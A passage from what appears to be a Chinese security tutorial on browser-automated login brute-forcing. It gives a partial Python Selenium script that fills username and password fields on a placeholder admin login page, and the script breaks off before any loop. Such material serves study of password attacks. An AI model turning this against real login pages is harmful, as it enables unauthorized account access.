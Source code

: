 [![](assets/1698897578-b86fe6a0b9d2d0b18d41beeed4a97e0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160522-6c5f8a22-48b7-1.png)

# 0x03 浏览器自动化爆破

安装 selenium  
安装浏览器驱动，加入环境变量。

```bash
#coding:utf-8



import time
import sys
from selenium import webdriver

reload(sys) 
sys.setdefaultencoding('utf-8')



def BruteLogin(user,pwd):


        browser.get('http://xxx.cn/manage/login.aspx')
        browser.implicitly_wait(7)
        elem = browser.find_element_by_name("name")
        elem.send_keys(user)
        elem=browser.find_element_by_name("pws")
        elem.send_keys(pwd)

```